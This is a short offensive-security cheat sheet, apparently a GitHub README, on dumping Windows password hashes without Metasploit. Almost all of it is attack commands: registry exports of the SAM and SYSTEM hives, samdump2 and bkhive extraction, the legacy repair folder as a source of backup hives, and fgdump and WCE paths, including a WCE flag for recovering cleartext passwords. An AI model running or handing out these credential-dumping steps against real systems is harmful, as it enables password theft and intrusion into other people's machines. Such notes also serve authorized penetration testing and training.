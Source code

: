 # Windows HashDump without Metasploit

##  Windows Passwords

### Reg Commands to get passwords' file

System file:

`reg save HKLM\System system.hive`

SAM File:

`reg save HKLM\SAM sam.hive`

### HASHDUMP

`samdump2 system.hive sam.hive`

#### Windows Repair

Backup files < Windows 2003:

`c:\windows\repair`

Donwload sam and system:

`bkhive system key.txt`
`samdump2 sam key.txt`

### FGDump

Kali Path: `/usr/share/windows-binaries/fgdump/fgdump.exe`

### WCE

Kali Paths:
* `/usr/share/wce/wce32.exe`
* `/usr/share/wce/wce64.exe`
* `/usr/share/wce/wce-universal.exe`

Get pass:

`wce-universal.exe `

Try to get pass into clear text:

`wce-universal.exe -w`